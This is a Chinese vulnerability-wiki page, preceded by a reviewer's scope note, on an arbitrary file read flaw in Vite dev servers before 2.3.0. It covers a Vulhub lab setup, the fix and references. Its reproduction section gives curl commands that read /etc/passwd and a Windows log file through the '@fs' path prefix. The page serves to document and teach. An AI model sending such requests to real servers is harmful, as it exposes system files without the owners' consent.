

## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：&lt;2.3.0，实验2.1.5；需开发服务可访问，非生产构建静态站

代码与实验材料：Linux/Windows读取示例及源码PR来源；Windows路径缺盘符需解释

来源证据范围：官方issue2820和PR2850，Vulhub说明

- **适用与权限边界（1）**：网络和权限边界缺失；依据：需服务对攻击者可达且进程有读取权限，任意文件不等于全部系统文件。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **适用与权限边界（2）**：修复配置命名需按历史PR核验；依据：写serve.fsServeRoot，应核对server相关配置名及后续演变，不能照搬到当前Vite。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **结论使用边界（3）**：Windows路径可能依赖当前驱动器；依据：目标C:\windows但URL/@fs/windows/...未含C:，应标可移植路径。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# Vite 开发服务器任意文件读取漏洞 CNVD-2022-44615

## 漏洞描述

Vite 是一个现代前端构建工具，为 Web 项目提供更快、更精简的开发体验。它主要由两部分组成：具有热模块替换（HMR）功能的开发服务器，以及使用 Rollup 打包代码的构建命令。

在 Vite 2.3.0 版本之前，可以通过 `@fs` 前缀读取文件系统上的任意文件。

参考链接：

- https://github.com/vitejs/vite/issues/2820
- https://github.com/vitejs/vite/pull/2850

## 漏洞影响

## 环境搭建

Vulhub 执行以下命令启动 Vite 2.1.5 开发服务器：

```shell
docker compose up -d
```

服务器启动后，可以通过访问 `http://your-ip:3000` 来访问 Vite 开发服务器。

> 注意：旧版本 Vite 的开发服务器默认端口为 3000，新版本默认端口为 5173，请注意区分。

## 漏洞复现

使用标准的 `@fs` 前缀访问指定路径，可以获取文件内容。例如，服务器为 Linux，访问 `/etc/passwd`：

```shell
curl "http://your-ip:3000/@fs/etc/passwd"
```




如果服务器为 Windows，访问 `C:\windows\debug\netsetup.log`：

```shell
curl "http://localhost:3000/@fs/windows/debug/netsetup.log"
```

## 漏洞修复

修复 [#2820](https://github.com/vitejs/vite/issues/2820)，新增选项 `serve.fsServeRoot`，将自动检测工作区根目录为 `fsServeRoot`，防止为整个文件系统提供服务。详见： https://github.com/vitejs/vite/pull/2850


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
